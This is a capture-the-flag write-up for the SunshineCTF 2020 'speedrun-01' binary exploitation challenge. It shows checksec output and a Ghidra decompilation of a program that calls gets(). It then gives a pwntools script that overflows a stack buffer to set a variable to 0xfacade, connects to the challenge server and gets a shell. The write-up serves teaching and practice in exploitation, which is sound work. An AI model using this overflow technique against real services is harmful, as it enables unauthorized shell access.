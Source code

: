 # **speedrun-01**
## Task
nc chal.2020.sunshinectf.org 30001
File: chall_01
Tag: binary exploitation 

## Solution
### Checksec
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled

```
* No cannary assume BOF 
* System 64 bit
### Decompile with ghidra
```c
void main(void)
{
  char local_68 [64];
  char local_28 [24];
  int local_10;
  int local_c;
  
  puts("Long time ago, you called upon the tombstones");
  fgets(local_28,0x13,stdin);
  gets(local_68);
  if (local_c == 0xfacade) {
    system("/bin/sh");
  }
  if (local_10 == 0xfacade) {
    system("/bin/sh");
  }
  return;
}
```
The same with the speedrun--00, but before `gets` we have to input `fgets` and the bytes of gadbage is `0x68-0xc` for `local_c` and then `0xfacade`
Or do the same with `local_10`

### Exploit
```python
from pwn import *
bianry = context.binary = ELF('./chall_01')
payload = b'A'*(0x68-0xc)
payload += p64(0xfacade)
p = remote('chal.2020.sunshinectf.org',30001)
p.sendline("lol")
p.sendline(payload)
p.interactive()
```
### Output
```bash
[*] '/home/kali/speedrun_sunshineCTF2020/chall_01'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.2020.sunshinectf.org on port 30001: Done
[*] Switching to interactive mode
Long time ago, you called upon the tombstones
$ ls
chall_01
flag.txt
```